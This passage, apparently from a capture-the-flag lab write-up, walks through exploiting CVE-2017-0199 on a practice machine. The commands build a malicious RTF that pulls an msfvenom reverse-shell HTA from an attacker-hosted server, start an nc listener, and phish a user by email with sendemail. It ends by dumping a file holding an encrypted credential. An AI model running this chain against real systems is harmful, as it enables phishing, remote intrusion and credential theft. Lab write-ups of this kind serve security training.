 It exists as it returned `250 OK`, now this seems like we have to send a rtf file to nico@megabank.com, searching for an exploit for this there's the CVE-2017-0199.

### Exploiting CVE-2017-0199 to get a reverse shell
 
First I'll clone this repository: https://github.com/bhdresh/CVE-2017-0199, then i'll generate the malicious rtf file using this command.

```
$ python2 cve-2017-0199_toolkit.py -M gen -w thefile.rtf -u http://10.10.14.17/rev.hta -t RTF -x 0
```

Then create the file that will give a reverse shell

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=9001 -f hta-psh -o rev.hta
```

The next thing is to send the email, I'll use `sendemail`, I'll set up a server hosting the two files with python:

```bash
$ sudo python3 -m http.server 80
```

Then the nc listener:

```bash
$ nc -lvnp 9001
```

And finally send the email, I'll use `sendemail`:

```
$ sendemail -f user@megabank.com -u "File" -m "the file is here" -a thefile.rtf -t nico@megabank.com -s 10.10.10.77 
```

And we have a shell back, going to c:\\Users\\nico\\Desktop there's a `cred.xml` file.

### Decrypting the credential of the user Tom found in the desktop

```
c:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
